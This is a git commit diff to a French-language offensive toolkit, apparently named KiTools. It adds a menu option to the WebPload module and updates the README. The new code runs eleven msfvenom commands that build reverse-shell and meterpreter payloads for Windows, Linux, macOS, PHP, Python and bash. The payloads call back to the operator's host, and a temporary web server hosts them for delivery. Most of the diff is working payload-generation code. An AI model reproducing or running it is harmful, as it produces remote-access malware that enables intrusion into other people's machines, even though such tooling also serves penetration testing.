

add_msf_ploads

diff --git a/modules/WebPload.py b/modules/WebPload.py
@@ -147,9 +147,10 @@ _       __     __    ____  __                __
     stdscr.addstr(menu_y, table_x, "Options:", curses.A_BOLD)
     stdscr.addstr(menu_y+1, table_x+2, "1. Ouvrir/Fermer serveur web")
     stdscr.addstr(menu_y+2, table_x+2, "2. Ajouter un pload")
-    stdscr.addstr(menu_y+3, table_x+2, "3. Quitter")
+    stdscr.addstr(menu_y+3, table_x+2, "3. Ajouter des ploads msfvenom")
+    stdscr.addstr(menu_y+4, table_x+2, "0. Quitter")
     
-    stdscr.addstr(menu_y+6, table_x, "❯ ", curses.A_BOLD)
+    stdscr.addstr(menu_y+7, table_x, "❯ ", curses.A_BOLD)
     stdscr.refresh()
 
 
@@ -259,6 +260,97 @@ def add_pload(stdscr, server_active):
     curses.noecho()
 
 
+def progress_bar(stdscr, y, x, width, percent):
+    """Affiche une barre de progression à la position donnée"""
+    filled = int(width * percent)
+    bar = '█' * filled + '░' * (width - filled)
+    stdscr.addstr(y, x, f"[{bar}] {int(percent*100)}%")
+    stdscr.refresh()
+
+def add_msfvenom_pload(stdscr, server_active):
+    stdscr.clear()
+    curses.echo()
+    
+    # Vérifier si le répertoire msf_ploads existe déjà
+    rep_dest = os.path.dirname(__file__)+"/ploads/msf_ploads"
+    if os.path.exists(rep_dest):
+        stdscr.addstr(4, 2, "Le répertoire msf_ploads existe déjà!", curses.color_pair(2))
+        stdscr.addstr(5, 2, "Voulez-vous écraser les payloads existants pour changer de port? (o/N): ")
+        choice = stdscr.getstr().decode('utf-8').lower()
+        if choice != 'o':
+            stdscr.addstr(7, 2, "Opération annulée", curses.color_pair(1))
+            stdscr.addstr(9, 2, "Appuyez sur une touche pour continuer...")
+            stdscr.refresh()
+            stdscr.getch()
+            curses.noecho()
+            return
+    
+    # Demander le port pour les reverse shells
+    while True:
+        stdscr.addstr(4, 2, "Port pour les reverse shells: ")
+        try:
+            port = stdscr.getstr().decode('utf-8')
+            if not port.strip() or not port.isdigit() or int(port) < 1 or int(port) > 65535:
+                raise ValueError
+            break
+        except ValueError:
+            stdscr.addstr(5, 2, "Port invalide! Doit être entre 1 et 65535", curses.color_pair(2))
+            stdscr.refresh()
+            curses.napms(1500)
+            stdscr.addstr(5, 2, " " * 50)  # Efface le message d'erreur
+    
+    # Définir les commandes msfvenom
+    msfvenom_payloads = {
+        "meterpreter_staged_reverse_tcp": f"msfvenom -p windows/meterpreter/reverse_tcp LHOST={ip_lan} LPORT={port} -f exe -o {rep_dest}/meterpreter_staged_reverse_tcp.exe",
+        "meterpreter_stageless_reverse_tcp": f"msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST={ip_lan} LPORT={port} -f exe -o {rep_dest}/meterpreter_stageless_reverse_tcp.exe",
+        "windows_staged_reverse_tcp": f"msfvenom -p windows/x64/reverse_tcp LHOST={ip_lan} LPORT={port} -f exe -o {rep_dest}/windows_staged_reverse_tcp.exe",
+        "windows_stageless_reverse_tcp": f"msfvenom -p windows/x64/shell_reverse_tcp LHOST={ip_lan} LPORT={port} -f exe -o {rep_dest}/windows_stageless_reverse_tcp.exe",
+        "linux_meterpreter_staged_reverse_tcp": f"msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST={ip_lan} LPORT={port} -f elf -o {rep_dest}/linux_meterpreter_staged_reverse_tcp.elf",
+        "linux_stageless_reverse_tcp": f"msfvenom -p linux/x64/shell_reverse_tcp LHOST={ip_lan} LPORT={port} -f elf -o {rep_dest}/linux_stageless_reverse_tcp.elf",
+        "macos_meterpreter_staged_reverse_tcp": f"msfvenom -p osx/x64/meterpreter/reverse_tcp LHOST={ip_lan} LPORT={port} -f macho -o {rep_dest}/macos_meterpreter_staged_reverse_tcp.macho",
+        "php_meterpreter_stageless_reverse_tcp": f"msfvenom -p php/meterpreter_reverse_tcp LHOST={ip_lan} LPORT={port} -f raw -o {rep_dest}/php_meterpreter_stageless_reverse_tcp.php",
+        "php_reverse_php": f"msfvenom -p php/reverse_php LHOST={ip_lan} LPORT={port} -f raw -o {rep_dest}/php_reverse_php.php",
+        "python_stageless_reverse_tcp": f"msfvenom -p python/reverse_python LHOST={ip_lan} LPORT={port} -f raw -o {rep_dest}/python_stageless_reverse_tcp.py",
+        "bash_stageless_reverse_tcp": f"msfvenom -p cmd/unix/reverse_bash LHOST={ip_lan} LPORT={port} -f raw -o {rep_dest}/bash_stageless_reverse_tcp.sh"
+    }
+
+    try:
+        if server_active:
+            # Créer le répertoire msf_ploads si le serveur est actif
+            if not os.path.exists(rep_dest):
+                os.makedirs(rep_dest)
+            
+            # Exécuter les commandes msfvenom
+            stdscr.addstr(6, 2, "Génération des payloads en cours... Cela peut prendre un peu de temps..", curses.color_pair(1))
+            stdscr.refresh()
+            
+            total = len(msfvenom_payloads)
+            for i, (name, cmd) in enumerate(msfvenom_payloads.items(), 1):
+                stdscr.addstr(8, 2, " " * 80)  # Efface la ligne
+                stdscr.addstr(8, 2, f"Génération de: {name}")
+                os.system(cmd + " > /dev/null 2>&1")
+                progress_bar(stdscr, 9, 2, 50, i/total)
+                
+            stdscr.addstr(10, 2, "Payloads générés avec succès!", curses.color_pair(1))
+        else:
+            # Stocker les commandes en mémoire pour une exécution ultérieure
+            global temp_ploads
+            for name, cmd in msfvenom_payloads.items():
+                temp_ploads.append({
+                    "type": "msf_ploads",
+                    "name": name,
+                    "command": cmd
+                })
+            stdscr.addstr(6, 2, "Commandes stockées en mémoire. Seront exécutées au lancement du serveur.", curses.color_pair(1))
+            
+    except Exception as e:
+        stdscr.addstr(6, 2, f"Erreur: {str(e)}", curses.color_pair(2))
+    
+    stdscr.addstr(12, 2, "Appuyez sur une touche pour continuer...")
+    stdscr.refresh()
+    stdscr.getch()
+    curses.noecho()
+
 def main(stdscr):
     # Configuration des couleurs
     curses.start_color()
@@ -327,14 +419,23 @@ def main(stdscr):
                                 os.chmod(file_path, 0o777)
                 
                 # Charger les ploads temporaires
-                for temp_pload in temp_ploads:
+                total_temp = len(temp_ploads)
+                for i, temp_pload in enumerate(temp_ploads, 1):
                     key_dir = os.path.dirname(__file__)+'/ploads/'+temp_pload['type']
                     if not os.path.exists(key_dir):
                         os.makedirs(key_dir)
                     file_path = key_dir+'/'+temp_pload['name']+'.'+temp_pload['type']
-                    with open(file_path, 'w') as f:
-                        f.write(temp_pload['content'])
-                    os.chmod(file_path, 0o777)
+                    if temp_pload['type'] == 'msf_ploads':
+                        stdscr.addstr(22, 2, "Generation des ploads msf... Cela peut prendre un peu de temps..", curses.color_pair(1))
+                        stdscr.addstr(24, 2, " " * 80)  # Efface la ligne
+                        stdscr.addstr(24, 2, f"Génération de: {temp_pload['name']}")
+                        stdscr.refresh()
+                        os.system(temp_pload['command'] + " > /dev/null 2>&1")
+                        progress_bar(stdscr, 25, 2, 50, i/total_temp)
+                    else:
+                        with open(file_path, 'w') as f:
+                            f.write(temp_pload['content'])
+                        os.chmod(file_path, 0o777)
                 
                 if server_choice == 'php':
                     with open(os.path.dirname(__file__)+'/ploads/index.php', 'w') as f:
@@ -358,8 +459,11 @@ def main(stdscr):
         
         elif choice == ord('2'):
             add_pload(stdscr, server_active)
-            
+
         elif choice == ord('3'):
+            add_msfvenom_pload(stdscr, server_active)
+            
+        elif choice == ord('0'):
             exit()
 
 if __name__ == "__main__":

diff --git a/README.md b/README.md
@@ -25,6 +25,7 @@ Et plus encore.
 Serveur web temporaire pour l'hébergement de payloads prêts à l'emploi :
 - Création automatique d'un serveur PHP ou Python sur le port 80 (adaptable si 80 déjà utilisé)
 - Génération de payloads prêts à l'emploi (webshells, reverse shells, XSS...)
+- Option de génération de payloads msfvenom automatique
 - Enregistrement de payloads personnalisés (persistant dans KiTools ou en cache)
 - Gestion automatique des fichiers temporaires
 - Nettoyage à la fermeture
@@ -81,8 +82,6 @@ Module d'exploitation de vulnérabilité SSRF (Server-Side Request Forgery) perm
 
 ### Améliorations à venir :
 
-#### WebPload
-- pload msfvenom with option
 
 
 ### Modules à venir :
